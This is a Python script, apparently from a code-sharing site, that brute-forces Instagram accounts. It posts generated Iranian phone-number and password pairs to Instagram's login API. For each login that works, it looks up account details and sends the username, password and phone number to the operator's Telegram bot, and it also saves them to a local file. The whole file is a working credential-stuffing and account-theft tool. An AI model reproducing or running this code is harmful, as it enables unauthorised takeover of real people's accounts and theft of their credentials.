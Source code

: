 import  sys, os, random, time, user_agent,secrets,requests,json,uuid

from secrets import token_hex

from uuid import uuid4

import pyfiglet

from pyfiglet import figlet_format

logo1 = figlet_format('',font ='devilish')

hk = ('')

nkt = ('-- '*20)

A = "\033[1;91m"

B = "\033[1;90m"

C = "\033[1;97m"

E = "\033[1;92m"

H = "\033[1;93m"

K = "\033[1;94m"

L = "\033[1;95m"

M = "\033[1;96m"

os.system('clear')

os.system('rm -rf .1.txt')

print(M+logo1)

print(K+hk)

print(H+nkt)

token = input(E+"-"+A+"!"+E+"-"+H+ " Enter BoT Token :  "+C)

ID = input(E+"-"+A+"!"+E+"-"+H+ " Enter YouR ID :  "+C)

def ToOLA():

	os.system('clear')	global ID, token 

	ok = 0

	cp = 0

	sk = 0

	os.system('clear')

	os.system('rm -rf .1.txt')

	import time

	def Comb():

		for lik in range(5000):

			A0=random.randint(1000000, 9999999)

			H0=("+98930"+str(A0)+":0930"+str(A0))

			with open(".1.txt", "a") as Ccom:

				Ccom.write(str(H0)+"\n")

	Comb()

	fil=".1.txt"

	file=open(fil,"r").read().splitlines()

	for line in file:

		user=line.split(':')[0]

		pw=line.split(':')[1]

			

		url = 'https://i.instagram.com/api/v1/accounts/login/'

		headers = {'User-Agent':'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)', 

        'Accept':'*/*', 

        'Cookie':'missing', 

        'Accept-Encoding':'gzip, deflate', 

        'Accept-Language':'en-US', 

        'X-IG-Capabilities':'3brTvw==', 

        'X-IG-Connection-Type':'WIFI', 

        'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 

        'Host':'i.instagram.com'}

		uid = str(uuid4())

		data = {'uuid':uid, 

         'password':pw, 

         'username':user, 

         'device_id':uid, 

         'from_reg':'false', 

         '_csrftoken':'missing', 

         'login_attempt_countn':'0'}

		req = requests.post(url,headers=headers,data=data,allow_redirects=True,verify=True)

		if str("logged_in_user") in req.json():

			ok+=1

			userx = req.json()['logged_in_user']['username']

			try:

				cookiie = secrets.token_hex(8)*2

				head = {

                'HOST': "www.instagram.com",

                'KeepAlive' : 'True',

                'user-agent' : "Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)",

                'Cookie': cookiie,

                'Accept' : "*/*",

                'ContentType' : "application/x-www-form-urlencoded",

                "X-Requested-With" : "XMLHttpRequest",

                "X-IG-App-ID": "936619743392459",

                "X-Instagram-AJAX" : "missing",

                "X-CSRFToken" : "missing",

                "Accept-Language" : "en-US,en;q=0.9"}

				aip = 'https://www.instagram.com/'+str(userx)+'/?__a=1'

				look = requests.get(aip,headers=head).json()

				id = str(look['graphql']['user']['id'])

				name = str(look['graphql']['user']['full_name'])

				followers = str(look['graphql']['user']['edge_followed_by']['count'])

				following = str(look['graphql']['user']['edge_follow']['count'])

				lok = requests.get("https://o7aa.pythonanywhere.com/?id="+str(id))   

				iok = lok.json()

				daata = iok['data']

				

			except:pass

			JoAc = ('◆━━━━━━◆❃◆━━━━━━◆ \n🩸 𝚄𝚂𝙴𝚁𝙽𝙰𝙼𝙴 : '+str(userx)+'\n🩸 𝙿𝙰𝚂𝚂𝚆𝙾𝚁𝙳 : '+str(pw)+'\n🩸 𝙿𝙷𝙾𝙽𝙴 : '+str(user)+'\n🩸 𝙵𝙾𝙻𝙻𝙾𝚆𝙴𝚁𝚂 : '+str(followers)+'\n🩸 𝙵𝙾𝙻𝙻𝙾𝚆𝙸𝙽𝙶 : '+str(following)+'\n🩸 𝙳𝙰𝚃𝙴 : '+str(daata)+'\n◆━━━━━━◆❃◆━━━━━━◆')

			requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(JoAc))

			f=open('WorkAcc.txt','a')

			f.write(JoAc+"\n")

			f.close()

				

		elif str('"message":"challenge_required","challenge"') in req.json():

				cp+=1

		else:

			os.system('clear')

			sk+=1

			print(A+'	'+"«"+E+user+A+"»"+H+" : "+A+"«"+E+pw+A+"»")

			print("{}  ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ".format(B))

			print(" {}-{}!{}-{}  Vaild {} : {}{}".format(A,E,A,E,A,E,str(ok))+" {}-{}!{}-{}  SeC{} : {}{}".format(A,K,A,K,A,K,str(cp))+" {}-{}!{}-{}  Check {} : {}{}".format(A,H,A,B,A,H,str(sk)))

			print("{} ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ، ،  ".format(B))

			print("        	")

ToOLA()
